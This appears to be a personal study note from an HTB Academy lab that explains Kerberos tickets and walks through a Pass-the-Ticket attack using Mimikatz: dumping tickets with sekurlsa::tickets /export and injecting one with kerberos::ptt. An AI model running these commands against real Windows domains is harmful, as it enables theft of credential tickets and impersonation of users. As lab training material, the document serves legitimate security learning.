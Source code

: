 # Kerberos Protocol Refresher
The Kerberos authentication system is ticket-based. The central idea behind Kerberos is not to give an account password to every service you use. Instead, Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service, preventing a ticket from being used for another purpose.

1) The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
2) The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

## Pass the Ticket (PtT) Attack from mimikatz
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:
1) Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
2) Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

We can harvest all tickets from a system using the Mimikatz module sekurlsa::tickets /export. The result is a list of files with the extension `.kirbi`, which contain the tickets.

**Mimikatz:**
```bash
privilege::debug
```
If response `Privilege '20' OK` then it means we have administrator rights.
```bash
sekurlsa::tickets /export
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/bb0b055d-a88c-4df9-b509-c9575cf1f1c9)
<br>
The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: [ randomvalue ]-username@service-domain.local.kirbi.

## Using tickets from mimikatz

We use exact same directory which tickets located.
We will launch mimkatz.exe and check privilege by `privilege::debug`
And then final command:
```bash
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/6ae5912e-a38d-48da-a0c9-c4c2911b9fbf)

```bash
Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.
```
